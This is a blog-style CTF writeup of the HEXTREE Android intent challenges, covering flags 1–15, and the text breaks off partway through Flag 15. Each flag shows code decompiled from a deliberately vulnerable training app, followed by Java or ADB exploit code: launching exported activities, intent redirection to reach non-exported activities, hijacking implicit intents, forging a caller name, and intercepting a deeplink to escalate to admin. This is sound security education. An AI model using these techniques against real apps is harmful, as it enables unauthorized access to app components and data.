

+++
date = '2025-07-30T00:55:36+03:00'
draft = false
title = 'HEX Tree intent Challenges'
tags = ['Ctf', 'Andorid', 'intent', 'implicit', 'deep link', 'pending', 'hextree']
+++

This a writeup to all intent realated challenges 

### Flag 1
#### code analysis
```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
        this.name = "Flag 1 - Basic exported activity";
        this.flag = "zABitOReWutKdkrMKx2NPVXklOmLz1SB85u2kJjUe1ojI9LMWkbEKkjANz15WHmb";
    }

    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);  
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
```

When this activity called it's constructor will set the activity's name to "Flag 1 - Basic exported activity" and initializes a flag variable.This LogHelper is used to add a tag named "basic-main-activity-avd2" and method success is called 

#### Solution

so just by lunching this activity the method will be executed and that can be called with Explicit intent . from code we find:
1. package= **"io.hextree.attacksurface"**
2. class name : **io.hextree.attacksurface.activities.Flag1Activity**

Java:
```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag1Activity"
)); 
startActivity(EvilIntent);  
```



ADB:
```shell
adb shell am start-activity io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag1Activity

```

### Flag 2
#### Code analysis
```xml
<activity
android:name="io.hextree.attacksurface.activities.Flag2Activity"
android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
   </intent-filter>
</activity>
```

Here the Filter shows that This activity listens for an **action string**: `io.hextree.action.GIVE_FLAG` and only with that an intent will be received

```Java
protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        String action = getIntent().getAction();
        if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
            return;
        }
        this.f.addTag(action);
        success(this);
    } 
```

The Intent is received by `getIntent()` method and action is read then stored by method `getAction()` in action string, Then a check to see if it's null (empty) or have a different flag.
if all are good and clear then `success()` is called;

#### Solution
set the flag but don't forget to set the correct Package and activity name

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag2Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
startActivity(EvilIntent);  
```

### Flag 3
#### Code analysis
```xml
<activity
	android:name="io.hextree.attacksurface.activities.Flag3Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```

Here the filter checks for 2 values 
- action name 
- specific data / content -> url that is https protocol

```java
	Intent intent = getIntent();
	String action = intent.getAction();
	if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
           return;
	    }
	this.f.addTag(action);
	Uri data = intent.getData();
	if (data == null || !data.toString().equals("https://app.hextree.io/map/android")) {
           return;
	    }
	this.f.addTag(data);
    success(this);
```

An intent will be received and its action will be checked and then data is saved in variable of type Uri and then checked after converted to string and if it's the same, condition will be escaped and success is called.

#### Solution
From our analysis:
- package= **"io.hextree.attacksurface"**
- Intent action: `"io.hextree.action.GIVE_FLAG"`
- data : "https://app.hextree.io/map/android"
- class name : **io.hextree.attacksurface.activities.Flag3Activity

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag3Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
EvilIntent.setData(Uri.parse("https://app.hextree.io/map/android"));
startActivity(EvilIntent);  
```

### Flag 4
#### Code analysis
```java
public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        stateMachine(getIntent());
    }
```

The constructor is called for `onCreate()` method and `starMachine()` is called and the received intent is passed to it 

```java
public void stateMachine(Intent intent) {
  
        String action = intent.getAction();
        int ordinal = getCurrentState().ordinal();
        if (ordinal != 0) {
            if (ordinal != 1) {
                if (ordinal != 2) {
                    if (ordinal == 3) {
                        this.f.addTag(State.GET_FLAG);
                        setCurrentState(State.INIT);
                        success(this);
                        return;
                    }
                    if (ordinal == 4 && "INIT_ACTION".equals(action)) {
                        setCurrentState(State.INIT);
                        Toast.makeText(this, "Transitioned from REVERT to INIT", 0).show();
                        return;
                    }
                } else if ("GET_FLAG_ACTION".equals(action)) {
                    setCurrentState(State.GET_FLAG);
                    Toast.makeText(this, "Transitioned from BUILD to GET_FLAG", 0).show();
                    return;
                }
            } else if ("BUILD_ACTION".equals(action)) {
                setCurrentState(State.BUILD);
                Toast.makeText(this, "Transitioned from PREPARE to BUILD", 0).show();
                return;
            }
        } else if ("PREPARE_ACTION".equals(action)) {
            setCurrentState(State.PREPARE);
            Toast.makeText(this, "Transitioned from INIT to PREPARE", 0).show();
            return;
        }
        Toast.makeText(this, "Unknown state. Transitioned to INIT", 0).show();
        setCurrentState(State.INIT);
    }
```

- This activity **implements  "state machine"** which  **remembers its state** across invocations (calling activity), using `SolvedPreferences`.  Depending on the **current state** and the **action** of the incoming `Intent`, it **moves to the next state** or reset progress. 
- Only if you **correctly pass through all the states** in order (`INIT ➔ PREPARE ➔ BUILD ➔ GET_FLAG`), it will **give you the flag**

#### Solution

okay so should you send them in that order? you tried and failed, but why?
will by sending it in ascending order the last intent will be the first that the user interact with so he will start from the end (reverse order).

_Android processes them in a **Last-In-First-Out (LIFO) manner** due to how the **activity back stack** works._
A simple solution would be to send intents in reverse order form the beginning

```java
Intent TheKey = new Intent();  
TheKey.setComponent(new ComponentName(
"io.hextree.attacksurface",
"io.hextree.attacksurface.activities.Flag5Activity"));    
startActivity(TheKey);  
  
Intent getFlagIntent = new Intent();  
getFlagIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
getFlagIntent.setAction("GET_FLAG_ACTION");  
startActivity(getFlagIntent);  
  
Intent buildIntent = new Intent();  
buildIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
buildIntent.setAction("BUILD_ACTION");  
startActivity(buildIntent);  
  
Intent prepareIntent = new Intent();  
prepareIntent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag4Activity"));  
prepareIntent.setAction("PREPARE_ACTION");  
startActivity(prepareIntent);
```

### Flag 5
#### Code analysis
```java
public void onCreate(Bundle bundle) {

        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        this.f.addTag("nextIntent");
        if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
    }
```

Here the code is trying to get data from intent which has intent as extra data in it when intent is unpacked the activity will execute it for us using `startActivity()`

- `intent2` must have an int extra `"return"` with value `42`. 
- `intent2` must have a nested parcelable intent under `"nextIntent"`.
- `nextIntent` must have a string extra `"reason"` with value `"back"`.

`intet -> intent2("return",42) -> intent3("reason", "back)`

#### Solution
```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent3.putExtra("reason","back");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 6
#### Code analysis
```java
public void onCreate(Bundle bundle) {
        if ((getIntent().getFlags() & 1) != 0) {
            this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
            success(this);
        }
    }
```
I
It's simple, Just sending an intent with flag `"FLAG_GRANT_READ_URI_PERMISSION"` .... Right?

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag6Activity"
    android:exported="false"/>
```

but the activity is not exported so you cant talk to it directly 

so we want something that has startActivity() in it andv we can call it so that when supplied with intent it will go from activity "A" into activity "B" which we cant call directly

**_Activity 5 have the right requirement_**
```java
if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
```

#### Solution

we will use the previous solution but changing the extra text in intent3 from `back` -> `next`, and class we are calling and give it the required permissions  `.FLAG_GRANT_READ_URI_PERMISSION`

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag6Activity"));  
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 7
#### Code analysis 
```java
 public void onCreate(Bundle bundle) {
        String action = getIntent().getAction();
        if (action == null || !action.equals("OPEN")) {
            return;
        }
        this.f.addTag("OPEN");
    }
    public void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        String action = intent.getAction();
        if (action == null || !action.equals("REOPEN")) {
            return;
        }
        this.f.addTag("REOPEN");
        success(this);
    }
```

The received intent it's Action content will be checked for `"OPEN"`. But to get into `success()` you need `onNewIntent()`  which:
- Retrieves the **action string** from the **new incoming intent**.
- If action is `null` or not equal to `"REOPEN"`, it returns/exit.
- If action is `"REOPEN"`, it adds the tag `"REOPEN"` and calls `success(this)`.

But how to trigger `onNewIntent()` ?
This method is part of the **Activity lifecycle** and is triggered **only** when:
- The activity is **already running**, & It is launched with an intent that does **not create a new instance** (reset activity by creating new one )
- Instead **reuses the existing activity instance**, based on its **launch mode** or **intent flags**.

#### Solution

Using ADB :
```shell
adb shell 
am start -n io.hextree.attacksurface/.activities.Flag7Activity -a OPEN
sleep 1
am start -n io.hextree.attacksurface/.activities.Flag7Activity -a REOPEN --activity-single-top
```

OR a one liner like:
```shell
adb shell "am start -n io.hextree.attacksurface/.activities.Flag7Activity -a OPEN && sleep 1 && am start -n io.hextree.attacksurface/.activities.Flag7Activity -a REOPEN --activity-single-top"
```

Basically this just launches shell on device and use activity manager `am` that starts the activity `Flag7Activity` with action `OPEN` then paused for 1 second to ensure activity is fully launched then relaunch it  with action `REOPEN` and force it to run `single-top` to reuse the activity not start new one

Using java :

1. If the activity starts quickly, you wont not need a delay:
```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // Required to trigger success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
startActivity(reopenIntent);
```

2. using delay
```java
 Intent openIntent = new Intent();
    openIntent.setClassName(
        "io.hextree.attacksurface",
        "io.hextree.attacksurface.activities.Flag7Activity"
    );
    openIntent.setAction("OPEN");
    startActivity(openIntent);

    // 2. After a delay, send "REOPEN" intent to trigger onNewIntent
    new Handler(Looper.getMainLooper()).postDelayed(() -> {
        Intent reopenIntent = new Intent();
        reopenIntent.setClassName(
            "io.hextree.attacksurface",
            "io.hextree.attacksurface.activities.Flag7Activity"
        );
        reopenIntent.setAction("REOPEN");
        reopenIntent.addFlags(
            Intent.FLAG_ACTIVITY_SINGLE_TOP |  // Reuse existing activity
            Intent.FLAG_ACTIVITY_CLEAR_TOP     // Clear other instances
        );
        startActivity(reopenIntent);
    }, 1000); // 1-second delay to ensure the activity is alive
```

3. Using single_Top flag
```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
try { Thread.sleep(1000); } catch (Exception e) {}  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // Required to trigger success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
startActivity(reopenIntent);
```

Using single_Top flag is enough but try experimenting as there may get incase that other activity tries to stay on top etc....

for more infor check [[android life cycle]]

### Flag 8
#### Code analysis
```java
 ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            if (callingActivity.getClassName().contains("Hextree")) {
                this.f.addTag("calling class contains 'Hextree'");
                success(this);
            } else {
                Log.i("Flag8", "access denied");
                setResult(0, getIntent());
            }
        }
```

- This activity Gets information about the activity that started it using `getCallingActivity()`. This returns a `ComponentName` object that identifies the calling activity. 
- Then checks if the current activity was started by another activity using `startActivityForResult()`  _(calling activity)_
- Then Checks if the class name of the calling activity contains the string "Hextree"

#### Solution
so to solve it i created a class that will have the desired name 

```java
public class Hextree extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_hextree);  
  
        Intent intent = new Intent();  
        intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag8Activity"));  
        startActivityForResult(intent,42);  
        
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {  
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());  
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);  
            return insets;  
        });  
    }  
}
```

### Flag 9
#### Code analysis
```java
      ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            if (callingActivity.getClassName().contains("Hextree")) {
                this.f.addTag("calling class contains 'Hextree'");
                success(this);
            } else {
                Log.i("Flag8", "access denied");
                setResult(0, getIntent());
            }
        }
```

This activity Gets information about the activity that started it using `getCallingActivity()`. This returns a `ComponentName` object that identifies the calling activity. 
- Then checks if the current activity was started by another activity using `startActivityForResult()`  _(calling activity)_
- Then Checks if the class name of the calling activity contains the string "Hextree" 

The only difference between this and `Flag 8` is the activity name and we will implement the `onActivityResult()` 

#### Solution
```java
public class Hextree extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_hextree);  
  
        Intent intent = new Intent();  
        intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag9Activity"));  
        startActivityForResult(intent,42);  
        
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {  
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());  
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);  
            return insets;  
        });  
    }  
  
    @Override  
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
        if (requestCode == 42) {  
            Utils.showDialog(this, data);  
        }  
    }  
}
```

### Flag 10
#### Code analysis
```java
if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent with the flag\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            this.f.addTag(intent);
            intent.putExtra("flag", this.f.appendLog(this.flag));
            try {
                startActivity(intent);
                success(this);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
```

when an intent is sent to this activity & no action is provided then a Toast message will be displayed and an intent will be crated with action `"io.hextree.attacksurface.ATTACK_ME"` and some flags and data will be attached to be sent with intent 

```xml
<activity
       android:name="io.hextree.attacksurface.activities.Flag10Activity"
       android:exported="false"/>
```

But from xml we cant directly call it ?

#### Solution
___Here the app do it for us when we click the Flag challenge from app it will start it for us and send the intent 

create an Intent-filter that listens for action `"io.hextree.attacksurface.ATTACK_ME"` and in activity we get the intent and read it's content. 

```xml
<activity  
    android:name=".implicitIntent"  
    android:exported="true">  
    <intent-filter>        
	    <action android:name="io.hextree.attacksurface.ATTACK_ME"/>  
        <category android:name="android.intent.category.DEFAULT"/>  
    </intent-filter>
</activity>
```

```java
Intent recivedIntent = getIntent();  
Utils.showDialog(this,recivedIntent);
```

this is optional since just opening the activity solves it but in a real case you can interact with the content inside of intent

**OR**  what if the app doesn't help us so we need a work around 
***like what we did in Flag 6 !***

This will pass the first 2 checks of activity 5 and on the 3rd we will call activity 10 **BUT** without adding prober flags the intents will keep calling each other resulting in infinite loop, so to solve it i added 2 flags.

These two flags are used to control the behavior of the activity stack (back stack) when launching a new activity.
`Intent.FLAG_ACTIVITY_CLEAR_TOP` : 
- **Purpose**: Clears all activities above the target activity in the stack
- **Function**:
    - If the activity already exists in the stack, it will be brought to the front
    - All activities above it will be destroyed
    - If used alone, it will create a new instance of the activity by default

`Intent.FLAG_ACTIVITY_SINGLE_TOP` :
- **Purpose**: Prevents creating multiple instances of the same activity
- **Function**:
    - If the activity is already at the top of the stack, it won't create a new instance
    - Instead, `onNewIntent()` will be called on the existing instance
    - If the activity exists but isn't at the top, a new instance will be created

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag10Activity"));  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```

### Flag 11
#### Code analysis
```java
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent to\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            try {
                startActivityForResult(intent, 42);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        if (intent != null && intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }
        super.onActivityResult(i, i2, intent);
    }
```

Like the previous Activity this will send and and intent on receiving empty intent But now it will start it while waiting for results , The Intent need to have `token` as extra with value `1094795585` 

#### Solution
The xml is same as before and we can reuse the same intent (which we received from activity11)  and click on the flag11 from the app (Intent Attack Surface)

```java
    Intent recivedIntent = getIntent();  
    Utils.showDialog(this,recivedIntent);  
  
    //to return a result  
    recivedIntent.putExtra("token",1094795585);  
    setResult(RESULT_OK, recivedIntent);  
    finish()
```

or take the long hard path

This was tricky as the intent received was empty but that is maybe due to some problem from my side so i decided to separate into 2 activities (1 to start request & the other to receive and resend intent )

but i ran into problems like flag10 and because the flags i added it deleted the instance of activity11 so even if i called it and it sent me an intent i can't return it to that specific instance cuz it was closed so to solve it i added same flag so that even if it was closed it will be activated again

i added the finish method to close these activities as they stop and but the instance of activity 11 & 5 in background and to send the result back

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag11Activity"));  
intent3.putExtra("reason","next");  
intent3.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```

```java
Intent recivedIntent = getIntent();  
Utils.showDialog(this,recivedIntent);  
  
//to return a result  
recivedIntent.putExtra("token",1094795585);  
setResult(RESULT_OK, recivedIntent);  
finish();
```

### Flag 12
#### Code analysis
```xml
<activity
       android:name="io.hextree.attacksurface.activities.Flag12Activity"
       android:exported="true"/>
```

and yes we can send it directly to an activity  FINALLY it felt like an eternity since the ;ast exported one 

```java
public void onCreate(Bundle bundle) {
        if (getIntent().getAction() == null) {
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            startActivityForResult(intent, 42);   
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        super.onActivityResult(i, i2, intent);
        if (intent == null || 
	        getIntent() == null || 
	        !getIntent().getBooleanExtra("LOGIN", false)) 
	        {
	            return;
        }
        this.f.addTag("LOGIN");
        if (intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }

```

we need to send an empty intent then it will send and intent and with action `"io.hextree.attacksurface.ATTACK_ME"`, Then we send an intent with Boolean `"LOGIN"` `true` and extra `"token"`  `1094795585`

#### Solution
```java
Intent wakeUp= new Intent();
wakeUp.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
startActivity(wakeUp);

Intent intent2 = new Intent();
intent2.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
intent2.putExtra("LOGIN", true);
startActivity(intent2);

Intent receivedIntent = getIntent();
receivedIntent.putExtra("token", 1094795585); // Magic number check        
setResult(RESULT_OK, receivedIntent);
finish();
```

### Flag 13
#### Code analysis
```xml
    <activity
        android:name="io.hextree.attacksurface.activities.Flag15Activity"
        android:exported="true">
        <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="hex"/>
                <data android:host="open"/>
                <data android:host="flag"/>
        </intent-filter>
    </activity>
```

Here the activity is listening to intent that can come from a browser with scheme (protocol) :`hex` and host (domain) : `open` or `flag`

```java
 private boolean isDeeplink(Intent intent) {
        String action;
        return (
        intent == null || 
        (action = intent.getAction()) == null || 
        !action.equals("android.intent.action.VIEW") ||
        !intent.getCategories().contains("android.intent.category.BROWSABLE")||
        intent.getStringExtra("com.android.browser.application_id") == null
        ) ? false : true;
    }

    public void onCreate(Bundle bundle) {
        Intent intent = getIntent();
        if (intent == null) {
            finish();
        }
        if (isDeeplink(intent)) {
            Uri data = intent.getData();
            if (data.getHost().equals("flag") && 
	            data.getQueryParameter("action").equals("give-me"))
	            {
                success(this);
                return;
            } else {
                if ( !data.getHost().equals("open") || 
	                 data.getQueryParameter("message") == null)
                {
                    return;
                }
                return;
            }
        }
        Intent intent2 = new Intent("android.intent.action.VIEW");
        intent2.setData(Uri.parse("https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-link-builder?href=hex://open?message=Hello+World"));
        startActivity(intent2);
    }

```

The activity will function when getting an intent which is Deeplink:
- not empty
- has action `android.intent.action.VIEW`
- has category `"android.intent.category.BROWSABLE"`
- has extra string `"com.android.browser.application_id"` that is not empty
data inside Deeplink :
- Host is `flag`
- parameter `"action"` with value `"give-me"`

#### Solution
so we will use the website provided to solve challenges that involve sending url requests to our app and it will handle the creation of deeplinks for us
```txt
hex://flag?action=give-me
```

### Flag 14
#### Code analysis
```xml
<activity
            android:name="io.hextree.attacksurface.activities.Flag14Activity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data
                    android:scheme="hex"
                    android:host="token"/>
            </intent-filter>
        </activity>
```

The actions and scheme are the same as `flag13` only the host now is only `token`

```java
public void onCreate(Bundle bundle) {

        if (intent.getAction() == null) 
        {
            Intent intent2 = new Intent("android.intent.action.VIEW");
            String uuid = UUID.randomUUID().toString();
            SolvedPreferences.putString(getPrefixKey("challenge"), uuid);
            intent2.setData(
            Uri.parse("https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-app-auth?authChallenge=" + uuid));
            startActivity(intent2);
            return;
        }
        if (intent.getAction().equals("android.intent.action.VIEW")) {
            Uri data = intent.getData();
            String queryParameter = data.getQueryParameter("type");
            String queryParameter2 = data.getQueryParameter("authToken");
            String queryParameter3 = data.getQueryParameter("authChallenge");
            String string = SolvedPreferences.getString(getPrefixKey("challenge"));
            if (queryParameter == null || queryParameter2 == null || queryParameter3 == null || !queryParameter3.equals(string)) {
                Toast.makeText(this, "Invalid login", 1).show();
                finish();
                return;
            }
            this.f.addTag(queryParameter);
            try {
                String encodeToString = Base64.getEncoder().encodeToString(MessageDigest.getInstance("SHA-256").digest(queryParameter2.getBytes()));
                if (encodeToString.equals("a/AR9b0XxHEX7zrjx5KNOENTqbsPi6IsX+MijDA/92w=")) {
                    if (queryParameter.equals("user")) {
                        Toast.makeText(this, "User login successful", 1).show();
                    } else if (queryParameter.equals("admin")) {
                        Log.i("Flag14", "hash: " + encodeToString);
                        this.f.addTag(queryParameter2);
                        Toast.makeText(this, "Admin login successful", 1).show();
                        success(this);
                    }
                }
            }
        }
```

If no intent is received by activity it will crate an activity to launch a login portal and it takes us to a site that has button to continue logging in upon clicking it the user continues safely as intent will be sent to this activity and  you will login as user .... but we want an admin .....

#### Solution
to get `admin` we need to edit the `type` parameter 
creating an activity that will intercept and send it back with new intent with data you want but make sure it's a link .... uri .... not just butting it as string aka web101

```xml
<activity
android:name=".SecondActivity"
android:exported="true" >
<intent-filter>
  <action android:name="android.intent.action.VIEW"/>
  <category android:name="android.intent.category.DEFAULT"/>
  <category android:name="android.intent.category.BROWSABLE"/>
<data
    android:scheme="hex"
    android:host="token"/>
  </intent-filter>
</activity>
```

```java
Intent intent = getIntent();  
Utils.showDialog(this,intent);  
Uri data = intent.getData();  
//String query_parmaeter1 ="type = " + data.getQueryParameter("type");  
//String query_parmaeter2 = "authToken = " + data.getQueryParameter("authToken");  
//String query_parmaeter3 = "authChallenge = " +data.getQueryParameter("authChallenge");  
//Log.d("data", data.toString());  
//Log.d("query_parmaeter1", query_parmaeter1);  
//Log.d("query_parmaeter2", query_parmaeter2);  
//Log.d("query_parmaeter3", query_parmaeter3);  
  
String authToken = data.getQueryParameter("authToken");  
String authChallenge = data.getQueryParameter("authChallenge");  
  
Intent sendIntent = new Intent();  
sendIntent.setAction("android.intent.action.VIEW");  
sendIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag14Activity");  
sendIntent.setData(Uri.parse("hex://token?authToken="+authToken+"&type=admin&authChallenge="+authChallenge));  
startActivity(sendIntent);
```

### Flag 15
#### Code analysis
```xml
	 <activity
            android:name="io.hextree.attacksurface.activities.Flag15Activity"
            android:exported="true">
            <intent-filter>
                <action android:name="io.hextree.action.GIVE_FLAG"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
            </intent-filter>
    </activity>
```

The target `<intent-filter>` does not contain a host or path filter?

```java
 public void onCreate(Bundle bundle) {

        Intent intent = getIntent();
        if (intent == null) {
            return;
        }
        String action = intent.getAction();
        if (action == null) {
            Intent intent2 = new Intent("android.intent.action.VIEW");
            intent2.setData(Uri.parse("https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-link-builder?href=" + Uri.encode("intent:#Intent;...")));
            startActivity(intent2);
            return;
        }
        if (isDeeplink(intent) && action.equals("io.hextree.action.GIVE_FLAG")) {
            Bundle extras = intent.getExtras();
